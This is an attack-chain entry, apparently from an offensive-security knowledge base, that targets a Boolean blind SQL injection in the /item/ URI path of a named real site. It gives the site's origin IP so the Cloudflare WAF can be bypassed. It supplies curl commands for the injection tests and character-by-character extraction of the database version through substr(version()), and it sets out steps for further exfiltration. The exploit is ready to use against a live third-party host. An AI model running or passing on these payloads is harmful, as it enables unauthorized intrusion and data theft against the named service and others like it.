

---
tags:
  - sqli
  - blind-sqli
  - web-vulnerability
  - database-exfiltration
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Base-Endpoint-for-Normal-Behavior]]'
  - '[[procedures/Test-for-Blind-SQL-Injection-in-URI-Path]]'
  - '[[procedures/Extract-Database-Version-via-Boolean-SQLi]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:20.396Z'
description: >-
  A multi-stage attack exploiting a Boolean Blind SQL Injection vulnerability in
  the URI path of the /item/ endpoint on 3d.cs.money, allowing inference of
  database information through response code differences.
skill_level: intermediate
impact_level: high
id: 43a619f9-e430-4ff1-ba23-6d3f5538bcf5
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Boolean Blind SQL Injection in URI Path to Extract Database Version

Multi-stage attack chain demonstrating exploitation of a Boolean Blind SQL Injection in the /item/ endpoint URI path on 3d.cs.money (IP: 51.83.253.82), bypassing Cloudflare WAF to infer database details via HTTP response code differences (200 OK for true conditions, 404 for false).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform with SQL backend (e.g., accessible via IP 51.83.253.82 behind Cloudflare WAF)
- Required services/ports: HTTP/80
- Network access requirements: Direct IP access to bypass WAF if possible

### Initial Access Requirements

- No credentials needed
- Public network access to the target endpoint
- No prior access required

## Detailed Attack Procedures

### Step 1: Access Base Endpoint for Normal Behavior
procedure: [[procedures/Access-Base-Endpoint-for-Normal-Behavior]]

**Objective**: Establish baseline response for the /item/ endpoint to understand normal HTTP behavior.

**Instructions**: Navigate to the base URL http://51.83.253.82/item/default using a browser or tool like curl to confirm a 200 OK response, indicating the endpoint for editing skins is functional.

Use [[commands/curl-base-endpoint-access]] to verify:

```bash
curl -i http://51.83.253.82/item/default
```

**Expected Output**: HTTP/1.1 200 OK with page content for skin editing.

**Success Indicators**:
- 200 OK status code received
- No errors or redirects observed

### Step 2: Test for Blind SQL Injection in URI Path
procedure: [[procedures/Test-for-Blind-SQL-Injection-in-URI-Path]]

**Objective**: Inject boolean conditions into the URI path to detect if input is unsanitized and interpreted in a SQL WHERE clause.

**Instructions**: Intercept requests with Burp Suite and append payloads to /item/default. Test false condition: 'and UPPER('asd')='asd'-- expecting 404. Test true condition: 'and UPPER('asd')='ASD'-- expecting 200.

Use [[commands/curl-sqli-test-false]] for false condition:

```bash
curl -i "http://51.83.253.82/item/default'and UPPER('asd')='asd'--"
```

And [[commands/curl-sqli-test-true]] for true:

```bash
curl -i "http://51.83.253.82/item/default'and UPPER('asd')='ASD'--"
```

**Expected Output**: 404 for false, 200 for true, confirming injection point.

**Success Indicators**:
- Differential responses based on boolean truth
- Payloads alter response without direct output

### Step 3: Extract Database Version via Boolean SQLi
procedure: [[procedures/Extract-Database-Version-via-Boolean-SQLi]]

**Objective**: Iteratively extract database version character-by-character using SUBSTR and boolean conditions.

**Instructions**: Build payloads like /item/default'and substr(version(),1,1)='2'-- for position 1. Repeat for each character, testing against possible values (0-9, letters) until true response (200 OK).

Example with [[commands/curl-version-extract-pos1]]:

```bash
curl -i "http://51.83.253.82/item/default'and substr(version(),1,1)='2'--"
```

Iterate similarly for positions 2-8 to build '20.9.2.2'. Test functions like LENGTH, UPPER for compatibility.

**Expected Output**: Series of 200 OK for correct characters, reconstructing the version.

**Success Indicators**:
- Full version string extracted (e.g., '20.9.2.2')
- Potential for further exfiltration confirmed

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQLi via response code inference
2. Extracted database version '20.9.2.2'
3. Demonstrated path to query alteration or command execution

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
